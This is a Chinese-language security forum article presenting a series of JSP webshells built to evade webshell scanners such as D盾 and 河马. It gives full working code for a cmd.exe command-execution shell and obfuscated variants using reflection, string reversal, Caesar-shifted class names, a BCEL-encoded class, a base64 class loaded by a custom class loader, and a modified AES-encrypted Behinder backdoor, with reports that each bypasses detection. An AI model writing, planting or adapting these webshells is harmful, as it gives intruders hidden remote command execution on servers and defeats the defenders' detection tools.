# Java安全-WebShell免杀的多种方式-先知社区

> **来源**: https://xz.aliyun.com/news/16349  
> **文章ID**: 16349

---

在渗透测试中，经常用到一些 jsp webshell 但是默认的webshell代码会被杀软查杀。有经验的管理员只要看到杀软查杀就指定服务器可能被渗透入侵，导致服务器下线整改，这样一个好不容易得到得入口点就这样消失了。可见 免杀webshell是多么的重要。  
webshell代码免杀方式通过有以下几种 方法。

# 1.jsp webshell

## 环境配置:

在tomcat下运行的jsp代码  
这段代码是一个使用 JSP（JavaServer Pages）编写的简单网页脚本。它的功能主要是执行 Windows 系统命令并将其输出结果返回到网页。以下是对代码的逐行解释：  
页面指令:

```
<%@ page language="java" contentType="text/html;charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.io.*"%>
```

○ 第一行设置了 JSP 页面使用的编程语言（Java）、内容类型，以及页面编码格式。  
○ 第二行导入了 java.io.\* 包，以便进行输入和输出操作。  
输出操作系统名称:

```
out.print(System.getProperty("os.name").toLowerCase());
```

○ 这行代码获取当前操作系统的名称，并将其转换为小写后输出到网页上。

获取命令参数:

```
String cmd = request.getParameter("cmd");
```

○ 这行代码从请求中获取名为 cmd 的参数。用户可以通过网页传递一个命令，该命令将被执行。  
执行命令:

```
if(cmd != null){
    Process p =  Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",cmd});
```

○ 如果 cmd 参数不为 null，程序将使用 Runtime.getRuntime().exec() 方法执行该命令。这里使用的是 Windows 的命令行（cmd.exe）。  
读取命令输出:

```
InputStream input = p.getInputStream();
    InputStreamReader ins = new InputStreamReader(input, "GBK");
    BufferedReader br = new BufferedReader(ins);
    out.print("<pre>");
    String line;
    while((line = br.readLine()) != null) {
        out.println(line);
    }
    out.print("</pre>");
```

○ 程序获取命令的输出流并使用 InputStreamReader 和 BufferedReader 逐行读取命令的输出。  
○ 读取到的每一行都会被写入到网页中，以pre 标签的格式保留输出的原始格式。  
关闭流:

```
br.close();
    ins.close();
    input.close();
```

○ 关闭输入流和缓冲流，以释放资源。

```
<%@ page language="java" contentType="text/html;charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.io.*"%>
<%
    out.print(System.getProperty("os.name").toLowerCase());
    String  cmd = request.getParameter("cmd");
    if(cmd != null){
        Process p =  Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",cmd});
        InputStream input = p.getInputStream();
        InputStreamReader ins = new InputStreamReader(input, "GBK");
        BufferedReader br = new BufferedReader(ins);//从字符输入流中读取文本并缓冲字符
        out.print("<pre>");
        String line;
        while((line = br.readLine()) != null) {
            out.println(line);
        }
        out.print("</pre>");
        br.close();
        ins.close();
        input.close();

    }
%>
```



测试，成功执行命令。



创建的webshell检测工具

```
d盾 查杀
深信服 Sangfor antibot 免杀
河马 查杀
WEBDIR 免杀
```



就目前 d盾和河马的查杀效果比较不错。



2.java反射绕过  
编写代码，测试成功执行。



1. 导入相关类

   ```
   <%@ page import="java.lang.reflect.Method" %>
   <%@ page import="java.io.InputStream" %>
   <%@ page import="java.io.InputStreamReader" %>
   <%@ page import="java.io.BufferedReader" %>
   <%@ page import="java.io.IOException" %>
   <%@ page contentType="text/html;charset=UTF-8" language="java" %>
   ```

   ● 这些指令导入了 Java 反射机制和输入输出相关的类，这些类将用于执行命令和读取命令输出。  
   ● contentType 和 language 指定了页面的内容类型和使用的编程语言。
2. 获取用户输入的命令  
   jsp复制String cmd = request.getParameter("cmd");  
   if(cmd != null){  
   ● 从 HTTP 请求中获取名为 cmd 的参数。如果该参数不为 null，说明用户输入了一个命令。
3. 使用反射执行命令

   ```
   try {
    Class c= Class.forName("java.lang.Runtime");
    Method getRuntime = c.getDeclaredMethod("getRuntime");
    Method Methodexec = c.getDeclaredMethod("exec", String.class);
    Runtime r = (Runtime) getRuntime.invoke(null, null);
    Process process = (Process) Methodexec.invoke(r, cmd);
   ```

   ● 使用 Java 反射机制来获取 Runtime 类的实例并调用 exec 方法来执行用户输入的命令。  
   ○ Class.forName("java.lang.Runtime") 获取 Runtime 类。  
   ○ getDeclaredMethod("getRuntime") 获取 getRuntime 方法。  
   ○ getDeclaredMethod("exec", String.class) 获取 exec 方法，该方法接受一个字符串参数。  
   ○ invoke 方法被用来调用这些方法，从而获得 Runtime 实例并执行命令。
4. 读取命令输出

   ```
   InputStream inputStream = process.getInputStream();
   InputStreamReader inputStreamReader = new InputStreamReader(inputStream,"GBK");
   BufferedReader reader = new BufferedReader(inputStreamReader);
   String line;
   out.println("<pre>");
   while ((line = reader.readLine()) != null){
    out.println(line);
   }
   out.println("</pre>");
   ```

   ● 获取 Process 对象的输入流（即命令的输出），然后使用 InputStreamReader 和 BufferedReader 逐行读取输出。  
   ● 输出结果被包裹在 pre标签中，以保持格式。
5. 关闭流

   ```
   reader.close();
   inputStreamReader.close();
   inputStream.close();
   ```

   ● 关闭输入流和缓冲流，以释放系统资源。
6. 异常处理

```
}catch (IOException e){
    e.printStackTrace();
}
```

● 捕获 IOException 异常并打印堆栈跟踪。

```
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    String cmd = request.getParameter("cmd");
    if(cmd !=null){
        try {
            Class c= Class.forName("java.lang.Runtime");
            Method getRuntime = c.getDeclaredMethod("getRuntime");
            Method Methodexec = c.getDeclaredMethod("exec", String.class);
            Runtime r = (Runtime) getRuntime.invoke(null, null);
            Process process = (Process)Methodexec.invoke(r, cmd);
            InputStream inputStream = process.getInputStream();
            InputStreamReader inputStreamReader = new InputStreamReader(inputStream,"GBK");
            BufferedReader reader = new BufferedReader(inputStreamReader);
            String line;
            out.println("<pre>");
            while ((line=reader.readLine())!=null){
                out.println(line);
            }
            out.println("</pre>");
            reader.close();
            inputStreamReader.close();
            inputStream.close();
        }catch (IOException e){
            e.printStackTrace();
        }

    }


%>
```



测试成功绕过D盾。



d盾查杀 河马已经过了  
通过反射调用cmd其实已经可以过掉大部分杀软了。目前效果最好还是d盾。

3.反射加字符串反转

首先定义一个反转字符串函数 将反射用到的关键词字符串反转再转入

```
<%@ page contentType="text/html;charset=UTF-8"  language="java" %>
<%@ page import="java.lang.reflect.Method"%>
<%!public static String reverseStr(String str){String reverse = "";int length = str.length();for (int i = 0; i < length; i++){reverse = str.charAt(i) + reverse;}return reverse;}%>
<%
    String x = request.getParameter("x");
    if(x!=null){
        Class rt = Class.forName(reverseStr("emitnuR.gnal.avaj"));
        Method gr = rt.getMethod(reverseStr("emitnuRteg"));
        Method ex = rt.getMethod(reverseStr("cexe"), String.class);
        Process e = (Process) ex.invoke(gr.invoke(null),  x);
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```





这样已经可以过了d盾了。

4.java 凯撒加密  
凯撒加密是一种古老的加密技术，它属于替换加密的一种，得名于罗马的尤利乌斯·凯撒。其基本原理是通过将字母表中的字母按照固定的位移量进行替换，从而达到加密的目的。  
凯撒加密 就是一个字符串ascii进行偏移 。



```
<%@ page contentType="text/html;charset=UTF-8"  language="java" %>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.io.InputStream" %>
<%!
    public static String estr(String str) {
        String line="";
        for(int i=0;i<str.length();i++){
            char j = str.charAt(i);
            j=(char)(j - 2);
            line=line+j;

        }
        return line;
    }

%>
<%if (request.getParameter("cmd")!=null){
    String cmd=request.getParameter("cmd");
    Class c=Class.forName(estr("lcxc0ncpi0Twpvkog"));
    Method r = c.getMethod(estr("igvTwpvkog"), null);
    Method e = c.getMethod(estr("gzge"), String.class);
    Process process=(Process) e.invoke( r.invoke(null,null),cmd);
    InputStream inputStream = process.getInputStream();
    int a=-1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=inputStream.read(b))!=-1){
        out.print(new String(b));
    }
    out.print("</pre>");
    inputStream.close();


}

%>
```

测试代码



然后运行。



5.bcel加密

使用ByteCodeEvil这种方式

```
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class ByteCodeEvil {
    String res;
    public ByteCodeEvil(String cmd) throws IOException {
        StringBuilder stringBuilder = new StringBuilder().append("<pre>");
        BufferedReader bufferedReader = new BufferedReader(
                new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream(),"GBK"));
        String line;
        while ((line = bufferedReader.readLine()) != null) {
            stringBuilder.append(line).append("\n");
        }
        stringBuilder.append("</pre");
        // 回显
        this.res = stringBuilder.toString();
    }
    public String toString() {
        return this.res;
    }
}
```

代码定义了一个名为 ByteCodeEvil 的类，它的主要功能是执行一个系统命令并将其输出捕获到一个字符串中。接下来，我将详细解释每个部分的功能和工作原理：  
类和构造函数

```
public class ByteCodeEvil {
    String res; // 用于存储命令输出的字符串

    public ByteCodeEvil(String cmd) throws IOException {
        StringBuilder stringBuilder = new StringBuilder().append("<pre>"); // 使用 StringBuilder 来构建输出字符串
        BufferedReader bufferedReader = new BufferedReader(
                new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream(), "GBK")); // 执行命令并获取输入流
        String line; // 创建一个字符串变量用于存储读取的每一行
        while ((line = bufferedReader.readLine()) != null) { // 循环读取每一行输出
            stringBuilder.append(line).append("\n"); // 将读取的行添加到 StringBuilder 中
        }
        stringBuilder.append("</pre"); // 结束 <pre> 标签
        // 回显
        this.res = stringBuilder.toString(); // 将构建的字符串赋值给 res
    }
```

详细解释  
成员变量：  
○ String res：这是一个字符串类型的成员变量，用于存储命令的输出结果。  
构造函数：  
○ public ByteCodeEvil(String cmd)：构造函数接受一个字符串参数 cmd，该参数是要执行的命令。  
○ StringBuilder stringBuilder = new StringBuilder().append("pre");：创建一个 StringBuilder 对象，用于构建最终的输出结果，并在开头添加 pre 标签，这通常用于在 HTML 中保持文本格式。  
○ BufferedReader bufferedReader = new BufferedReader(...)：这行代码通过运行给定的命令并获取其输出流，创建一个 BufferedReader 对象。Runtime.getRuntime().exec(cmd) 方法用于执行命令，getInputStream() 用于获取命令的标准输出。InputStreamReader 用于将字节流转换为字符流，而 "GBK" 指定了字符编码。  
○ while ((line = bufferedReader.readLine()) != null)：循环读取命令输出的每一行直到没有更多行。  
○ stringBuilder.append(line).append("\n");：将每一行添加到 StringBuilder 中，并在每行后添加一个换行符。  
○ stringBuilder.append("pre");：在输出的末尾添加 pre 标签，表示 HTML 文本格式的结束。  
○ this.res = stringBuilder.toString();：将构建好的字符串赋值给 res。  
toString 方法

```
public String toString() {
    return this.res; // 重写 toString 方法，返回 res
}
```

● toString() 方法被重写以返回 res 变量的内容。当对象被作为字符串使用时（例如，打印对象时），将输出命令的结果。



转成 bcel字节


```
import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.net.URI;
import java.nio.file.Files;
import java.nio.file.Paths;

public class ToBecl {
    public static void main(String[] args) {
        try {
            String bcel = Utility.encode(Files.readAllBytes(Paths.get("D:\\code\\webtest123\\target\\classes\\ByteCodeEvil.class")),true);
            System.out.println(bcel);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



转码。

```
$l$8b$I$A$A$A$A$A$A$A$85T$5bS$d3$40$U$fe$b6$NM$88$e1$d2P$$$V$ef$X$u$a5P$VD$FD$z$UD$caE$8a8$7dL$d3$F$83m$daIS$G$7f$91$af$3a$a3$ad$p3$3e$fa$e0$_q$fc$N$8ex6$z$97$8eU$lrv$f7$dc$bes$be$3d$9bo$bf$3e$7f$B0$89$z$V$n$c4e$dcR$e1C$5c$c1m$b1$de$911$ncR$c5$5dL$JqO$c5$7d$3cP0$adB$c6$8c$8a$Af$85x$a8$60N$c1$p$R$f1$b8$j$3dx$o$p$nc$9e$c1$ef$f02$83$9e$da3$f6$8dx$de$b0w$e3i$d7$b1$ec$dd$Z$86$c0$ace$5b$ee$iCo$e4O$f3$c86$834_$ccq$86$ae$94e$f3$b5J$n$cb$9d$z$p$9b$e7$o$5d$d14$f2$db$86c$89sC$v$b9$af$y$82$eaL$r$de$b8$5cD$s$f7$ad$3c$c1$f8$cdB$8e$a1$a3$ec$e5MT$ac$7c$8e$3b$M$e1$3f$m$h$s$8a$e8$ccVvv$b8$c3s$9b$dc$f0$9c$H$ea$ceV1$9eh$b2$90$af$94$a7$e2$u$7d$da5$cc$d7$abF$c9$x$c6k$7e$81$98$q$f2$Y$d4$e4$81$c9K$aeU$b4$cb2$92$M$8a$5b$ac$p2$84$o$p$ad$98Q$d3$c5$8ac$f2EK$f4$V$3c$db$cf$b8$f0$d6$d0$8fE$86$fe$bft$c0$d06$5br$f8$9c$86$r$3ce$e8k$5d$3bQplX$b6K$V$97Rp$a3P$b7$c9X$d6$f0$M$x$gRX$95$b1$a6a$j$h$c4$e4RbE$60$3f$XbSC$g1$G$a6$K$bc8$Bj$YELC$_$fa$Y$b4$b3E3t$9f$96$ba$9e$dd$e3$a6$db$a4$3af$a3$e7$a4$a0$f5$T$ca$I5$of$n$60$94J$dc$a6$8b$ik5$y$ff$b8$cc$e0$a9i$b3b$bbV$81$uUw$b9$7br$e8m$ba$83$86Z$dc$y$3f$e0$s$c3$f0$7f$f06$9c$a2$c9$cb$e5f$a4$86$92F$89$90$ce$d0K$97v$8c$d6$cc$3b$85G$p$z$N$ad$9fF$cf$a9sc$U$85V$a1$88$9cx$z$b8Jo0D$af$9a$d1G$XB$d2G$fb$7e$M$d0$g$a6$d3wz$b3m$b4$be$88$d6$c0$O$e1$cb$d4$e0$d7$a5$w$daV$P$R$c8$iB$ce$7c$822ZE$7b$V$aa$7e$ae$G$ad$86$8e$b5$b1$w$3a3$d3$d2W$e8$b1$b0$f0$d5$bbH$bc$7c$7b$f4$p$a6w$8b$5d4VE$f0$p$f4$f7$94$d8$8f$f3$q$87$d0NR$86$E$FA$da$87$a1$o$G$NS$e8$40$S$5d4$5eAlA$c7$a0$f7$D$f2$K$c2$F$5c$E$bc$dd$r$w$9ch$c5$C$$$e3$K$V$k$c3$I5v$8drO$90$bcNV$J7$c8s$Q$be$p2J2n$ca$Y$921$y$p$C$fc$c4$A$9d$u$E$e4F$f4$d2G$f3IR$f4$l$a7Up$d3$W$fd$A$fd$9dG$8f$a87$e0$vC$5e$3dZ$dd$a1Q$P$N$9e$e75$fe$hb$f7$E$85$_$F$A$A
```

```
<%@ page language="java" pageEncoding="UTF-8" %>
<%
  String cmd = request.getParameter("cmd");

  String bcelCode = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85T$5bS$d3$40$U$fe$b6$NM$88$e1$d2P$$$V$ef$X$u$a5P$VD$FD$z$UD$caE$8a8$7dL$d3$F$83m$daIS$G$7f$91$af$3a$a3$ad$p3$3e$fa$e0$_q$fc$N$8ex6$z$97$8eU$lrv$f7$dc$bes$be$3d$9bo$bf$3e$7f$B0$89$z$V$n$c4e$dcR$e1C$5c$c1m$b1$de$911$ncR$c5$5dL$JqO$c5$7d$3cP0$adB$c6$8c$8a$Af$85x$a8$60N$c1$p$R$f1$b8$j$3dx$o$p$nc$9e$c1$ef$f02$83$9e$da3$f6$8dx$de$b0w$e3i$d7$b1$ec$dd$Z$86$c0$ace$5b$ee$iCo$e4O$f3$c86$834_$ccq$86$ae$94e$f3$b5J$n$cb$9d$z$p$9b$e7$o$5d$d14$f2$db$86c$89sC$v$b9$af$y$82$eaL$r$de$b8$5cD$s$f7$ad$3c$c1$f8$cdB$8e$a1$a3$ec$e5MT$ac$7c$8e$3b$M$e1$3f$m$h$s$8a$e8$ccVvv$b8$c3s$9b$dc$f0$9c$H$ea$ceV1$9eh$b2$90$af$94$a7$e2$u$7d$da5$cc$d7$abF$c9$x$c6k$7e$81$98$q$f2$Y$d4$e4$81$c9K$aeU$b4$cb2$92$M$8a$5b$ac$p2$84$o$p$ad$98Q$d3$c5$8ac$f2EK$f4$V$3c$db$cf$b8$f0$d6$d0$8fE$86$fe$bft$c0$d06$5br$f8$9c$86$r$3ce$e8k$5d$3bQplX$b6K$V$97Rp$a3P$b7$c9X$d6$f0$M$x$gRX$95$b1$a6a$j$h$c4$e4RbE$60$3f$XbSC$g1$G$a6$K$bc8$Bj$YELC$_$fa$Y$b4$b3E3t$9f$96$ba$9e$dd$e3$a6$db$a4$3af$a3$e7$a4$a0$f5$T$ca$I5$of$n$60$94J$dc$a6$8b$ik5$y$ff$b8$cc$e0$a9i$b3b$bbV$81$uUw$b9$7br$e8m$ba$83$86Z$dc$y$3f$e0$s$c3$f0$7f$f06$9c$a2$c9$cb$e5f$a4$86$92F$89$90$ce$d0K$97v$8c$d6$cc$3b$85G$p$z$N$ad$9fF$cf$a9sc$U$85V$a1$88$9cx$z$b8Jo0D$af$9a$d1G$XB$d2G$fb$7e$M$d0$g$a6$d3wz$b3m$b4$be$88$d6$c0$O$e1$cb$d4$e0$d7$a5$w$daV$P$R$c8$iB$ce$7c$822ZE$7b$V$aa$7e$ae$G$ad$86$8e$b5$b1$w$3a3$d3$d2W$e8$b1$b0$f0$d5$bbH$bc$7c$7b$f4$p$a6w$8b$5d4VE$f0$p$f4$f7$94$d8$8f$f3$q$87$d0NR$86$E$FA$da$87$a1$o$G$NS$e8$40$S$5d4$5eAlA$c7$a0$f7$D$f2$K$c2$F$5c$E$bc$dd$r$w$9ch$c5$C$$$e3$K$V$k$c3$I5v$8drO$90$bcNV$J7$c8s$Q$be$p2J2n$ca$Y$921$y$p$C$fc$c4$A$9d$u$E$e4F$f4$d2G$f3IR$f4$l$a7Up$d3$W$fd$A$fd$9dG$8f$a87$e0$vC$5e$3dZ$dd$a1Q$P$N$9e$e75$fe$hb$f7$E$85$_$F$A$A";
  Class<?> c = Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader");
  ClassLoader loader = (ClassLoader) c.newInstance();
  Class<?> clazz = loader.loadClass(bcelCode);
  java.lang.reflect.Constructor<?> constructor = clazz.getConstructor(String.class);
  Object obj = constructor.newInstance(cmd);
  response.getWriter().print(obj.toString());
%>
```

然后测试



成功执行命令。



6.自定义类加载器

先编写一个命令执行类

```
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;


public class Test {
    public String Demo1() {
        return "hello moonsec";
    }

    public String Eval(String cmd) throws IOException {
        StringBuilder var_str = new StringBuilder();
        Process p = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",cmd});
        InputStream input = p.getInputStream();
        InputStreamReader ins = new InputStreamReader(input, "GBK");
        BufferedReader br = new BufferedReader(ins);
        String line;
        var_str.append("<pre>");
        while ((line = br.readLine()) != null) {
            var_str.append(line).append("\n");
        }
        var_str.append("</pre>");
        String vars = var_str.toString();
        br.close();
        ins.close();
        input.close();
        p.getOutputStream().close();
        return vars;
    }

}
```

把类转换成 base64字符串

```
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class demo1 {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("D:\\code\\webtest123\\target\\classes\\Test.class"));
        System.out.println(Base64.getEncoder().encodeToString(bytes));
    }
}
```

自定义一个类加载器，并重写findClass()方法。该方法用来查找一个类，并在方法里调用defineClass()方法将字节流实例化为对象  
最终webshell代码

```
<%@ page language="java" contentType="text/html;charset=UTF-8" pageEncoding="UTF-8" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Base64" %>

<%
    try {
        out.println(System.getProperty("os.name").toLowerCase());
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            class DemoClassload extends ClassLoader {
                protected Class<?> findClass(String name) {
                    String classStr = "yv66vgAAADQAcgoAHABCCABDBwBECgADAEIKAEUARgcARwgASAgASQoARQBKCgBLAEwHAE0IAE4KAAsATwcAUAoADgBRCABSCgADAFMKAA4AVAgAVQgAVgoAAwBXCgAOAFgKAAsAWAoAWQBYCgBLAFoKAFsAWAcAXAcAXQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAGTFRlc3Q7AQAFRGVtbzEBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEABEV2YWwBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAA2NtZAEAEkxqYXZhL2xhbmcvU3RyaW5nOwEAB3Zhcl9zdHIBABlMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7AQABcAEAE0xqYXZhL2xhbmcvUHJvY2VzczsBAAVpbnB1dAEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAA2lucwEAG0xqYXZhL2lvL0lucHV0U3RyZWFtUmVhZGVyOwEAAmJyAQAYTGphdmEvaW8vQnVmZmVyZWRSZWFkZXI7AQAEbGluZQEABHZhcnMBAA1TdGFja01hcFRhYmxlBwBcBwBHBwBEBwBeBwBfBwBNBwBQAQAKRXhjZXB0aW9ucwcAYAEAClNvdXJjZUZpbGUBAAlUZXN0LmphdmEMAB0AHgEADWhlbGxvIG1vb25zZWMBABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgcAYQwAYgBjAQAQamF2YS9sYW5nL1N0cmluZwEAB2NtZC5leGUBAAIvYwwAZABlBwBeDABmAGcBABlqYXZhL2lvL0lucHV0U3RyZWFtUmVhZGVyAQADR0JLDAAdAGgBABZqYXZhL2lvL0J1ZmZlcmVkUmVhZGVyDAAdAGkBAAU8cHJlPgwAagBrDABsACUBAAEKAQAGPC9wcmU+DABtACUMAG4AHgcAXwwAbwBwBwBxAQAEVGVzdAEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2lvL0lPRXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAqKExqYXZhL2lvL0lucHV0U3RyZWFtO0xqYXZhL2xhbmcvU3RyaW5nOylWAQATKExqYXZhL2lvL1JlYWRlcjspVgEABmFwcGVuZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEACHJlYWRMaW5lAQAIdG9TdHJpbmcBAAVjbG9zZQEAD2dldE91dHB1dFN0cmVhbQEAGCgpTGphdmEvaW8vT3V0cHV0U3RyZWFtOwEAFGphdmEvaW8vT3V0cHV0U3RyZWFtACEAGwAcAAAAAAADAAEAHQAeAAEAHwAAAC8AAQABAAAABSq3AAGxAAAAAgAgAAAABgABAAAABwAhAAAADAABAAAABQAiACMAAAABACQAJQABAB8AAAAtAAEAAQAAAAMSArAAAAACACAAAAAGAAEAAAAJACEAAAAMAAEAAAADACIAIwAAAAEAJgAnAAIAHwAAAWIABQAJAAAAhrsAA1m3AARNuAAFBr0ABlkDEgdTWQQSCFNZBStTtgAJTi22AAo6BLsAC1kZBBIMtwANOgW7AA5ZGQW3AA86BiwSELYAEVcZBrYAElk6B8YAEiwZB7YAERITtgARV6f/6SwSFLYAEVcstgAVOggZBrYAFhkFtgAXGQS2ABgttgAZtgAaGQiwAAAAAwAgAAAAPgAPAAAADQAIAA4AIQAPACcAEAA0ABEAPwATAEYAFABRABUAYAAXAGcAGABtABkAcgAaAHcAGwB8ABwAgwAdACEAAABcAAkAAACGACIAIwAAAAAAhgAoACkAAQAIAH4AKgArAAIAIQBlACwALQADACcAXwAuAC8ABAA0AFIAMAAxAAUAPwBHADIAMwAGAE4AOAA0ACkABwBtABkANQApAAgANgAAACQAAv8ARgAHBwA3BwA4BwA5BwA6BwA7BwA8BwA9AAD8ABkHADgAPgAAAAQAAQA/AAEAQAAAAAIAQQ==";
                    byte[] bytes = Base64.getDecoder().decode(classStr);
                    return super.defineClass(bytes, 0, bytes.length);
                }
            }
            DemoClassload demoClassload = new DemoClassload();
            Class<?> aClass = demoClassload.loadClass("Test");
            Object o = aClass.newInstance();
            Method demo1 = aClass.getMethod("Eval",String.class);
            Object invoke = demo1.invoke(o,cmd);
            String s = invoke.toString();
            out.println(s);

        }
    } catch (Exception e) {
        out.println(e);
    }
%>
```





7.免杀Behinder后门

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!class U extends ClassLoader{// classloader 类加载器
    U(ClassLoader c){// 构造方法 参数为父类加载器
        super(c);
    }
    public Class g(byte []b){// g方法调用父类加载器加载类
        // defineClass的作用是处理前面传入的字节码，将其处理成真正的Java类，并返回该类的Class对象
        return super.defineClass(b,0,b.length);
    }
}%>
<%if (request.getMethod().equals("POST"))// 校验该请求是否是POST方法
{
    // 定义一个已经加密好的密钥 改密钥是AES加密算法的密钥
    String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
    // session.putValue方法 跟session.setAttribute方法类似，但是可以设置多个值
    session.putValue("u",k);
    // Cipher是加密算法的接口，它提供了加密和解密的方法 这里是实例化一个AES加密算法的密钥
    Cipher c=Cipher.getInstance("AES");
    // c.init 方法 这里的2 跟进代码中 是解密的意思  1是加密的意思  2 是解密 参数1是密钥  参数2是加密模式 采用AES
    c.init(2,new SecretKeySpec(k.T(),"AES"));
    //
    new U(this.getClass().getClassLoader()).g(c.doFinal(request.getParameter("p").getBytes()))
            .g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine())))
            .newInstance().equals(pageContext);
    //将代码分解
    // U(this.getClass().getClassLoader()) 这里的this.getClass().getClassLoader()是获取当前类的类加载器
    //.g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine())))
    // request.getReader().readLine() 这里的request.getReader().readLine()是获取请求的数据
    // new sun.misc.BASE64Decoder().decodeBuffer() 这里的new sun.misc.BASE64Decoder().decodeBuffer()是将请求的数据解密
    // c.doFinal() 这里的c.doFinal()是将解密后的数据进行加密 参数是解密后的数据
    // newInstance() 这里的newInstance()是将加密后的数据转换成类对象
    // .equals(pageContext) 这里的.equals(pageContext)是将类对象转换成字符串对象 并且比较两个字符串对象是否相等
}%>
```

过d盾



```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*,sun.misc.BASE64Decoder"%>
<%@ page import="java.lang.reflect.Constructor" %>
<%!class U extends ClassLoader
{
    U(ClassLoader c){super(c);
    }
    public Class g(byte []b)
    {
        return super.defineClass(b,0,b.length);
    }
}%>
<%if (request.getMethod().equals("POST"))
{
    String k="e45e329feb5d925b";
    session.putValue("u",k);
    Cipher c=Cipher.getInstance("AES");
    Class c2 = Class.forName("javax.crypto.spec.SecretKeySpec");
    Constructor Constructor=c2.getConstructor(byte[].class,String.class);
    SecretKeySpec aes =(SecretKeySpec)Constructor.newInstance(k.getBytes(),"AES");
    c.init(2,aes);
    ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
    String input= request.getReader().readLine();
    byte[] bytes=(byte[]) Base64.getDecoder().decode(input);
    Class clazz2=Class.forName("javax.crypto.Cipher");
    byte[] clazzBytes=(byte[]) clazz2.getMethod("doFinal",byte[].class).invoke(c,bytes);
    Class clazz=new U(contextClassLoader).g(clazzBytes);
    clazz.newInstance().equals(pageContext);
}%>
```

绕过D盾扫描





成功上线。


